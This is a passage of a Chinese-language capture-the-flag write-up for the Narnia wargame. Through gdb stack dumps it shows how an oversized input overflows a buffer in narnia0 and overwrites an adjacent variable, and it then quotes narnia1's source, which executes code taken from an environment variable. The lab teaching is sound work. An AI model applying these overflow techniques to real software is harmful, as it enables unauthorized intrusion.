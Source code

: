 ```sh
(gdb) b *main+63
Breakpoint 1 at 0x8048503
```

我们用20 Bs (\x42)作为输入运行调试程序. 它停在上面的地址, 在```scanf```之后:
```sh
(gdb) r
Starting program: /games/narnia/narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance:

Breakpoint 1, 0x08048503 in main ()
```

现在我们在12项中检查内存:

```sh
(gdb) x/12xw $esp
0xffffd6a0: 0x08048689  0xffffd6b8  0x08049ff4  0x08048591
0xffffd6b0: 0xffffffff  0xf7e59d46  0x42424242  0x42424242
0xffffd6c0: 0x42424242  0x42424242  0x42424242  0x41414100
```

变量*buf* 在第7-11条目(0x42424242). 在*val*(同时也是0x41414141)之后.稍等,你看到```0x41414100```中的两个0了吗?这是*buf*最后的空间

最后,我们用20 Bs + 4 Cs测试并且确认我们的漏洞利用已经开始工作:

```sh
(gdb) x/12xw $esp
0xffffd6a0: 0x08048689  0xffffd6b8  0x08049ff4  0x08048591
0xffffd6b0: 0xffffffff  0xf7e59d46  0x42424242  0x42424242
0xffffd6c0: 0x42424242  0x42424242  0x42424242  0x43434343
```


---

## Level 1:  环境变量的堆栈溢出

### Step 1: 理解问题

第二关的开始:
```c
narnia1@melinda:/narnia$ ./narnia1
Give me something to execute at the env-variable EGG

narnia1@melinda:/narnia$ cat narnia1.c
#include <stdio.h>

int main(){
  int (*ret)();

  if(getenv("EGG")==NULL){
    printf("Give me something to execute at the env-variable EGG\n");
    exit(1);
  }

  printf("Trying to execute EGG!\n");
  ret = getenv("EGG");
  ret();

  return 0;
}
```
